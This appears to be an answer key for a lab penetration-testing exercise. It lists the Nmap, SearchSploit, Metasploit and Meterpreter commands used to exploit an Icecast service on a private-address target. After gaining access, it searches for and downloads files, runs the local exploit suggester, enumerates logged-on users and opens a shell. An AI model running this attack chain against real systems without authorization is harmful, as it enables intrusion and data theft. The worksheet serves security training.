 # Penetration Test Engagement
1. Perform a service and version scan using Nmap to determine which services are up and running:
-  Run the Nmap command that performs a service and version scan against the target.
- Answer: `nmap -sV 192.168.0.20`

2. From the previous step, we see that the Icecast service is running. Let's start by attacking that service. Search for any Icecast exploits:
- Run the SearchSploit commands to show available Icecast exploits.
- Answer: `searchsploit icecast`

3. Now that we know which exploits are available to us, let's start Metasploit:
- Run the command that starts Metasploit:
- Answer: `msfconsole`

4. Search for the Icecast module and load it for use.
- Run the command to search for the Icecast module:
- Answer:`search icecast`

- Run the command to use the Icecast module:
- Note: Instead of copying the entire path to the module, you can use the number in front of it.
- Answer: `use 0`

5. Set the RHOST to the target machine.
- Run the command that sets the RHOST:
- Answer: `set RHOST 192.168.0.20`

6. Run the Icecast exploit.
- Run the command that runs the Icecast exploit.
- Answer: `run`

- Run the command that performs a search for the secretfile.txt on the target.
- Answer: `search -f *secretfile*.txt`

7. You should now have a Meterpreter session open.
- Run the command to performs a search for the recipe.txt on the target:
- Answer:`search -f *recipe*.txt`

- Bonus: Run the command that exfiltrates the recipe*.txt file:
- Answer: `download 'c:\Users\IEuser\Documents\Drinks.recipe.txt'`


8. You can also use Meterpreter's local exploit suggester to find possible exploits.
- Command to find local exploits:
- Answer: `run post/multi/recon/local_exploit_suggester`

- Note: The exploit suggester is just that: a suggestion. Keep in mind that the listed suggestions may not include all available exploits.

## Bonus
A. Run a Meterpreter post script that enumerates all logged on users.
- Answer: `run post/windows/gather/enum_logged_on_users`

B. Open a Meterpreter shell and gather system information for the target.
- Answer: `shell`

C. Run the command that displays the target's computer system information:
- Answer: `systeminfo`
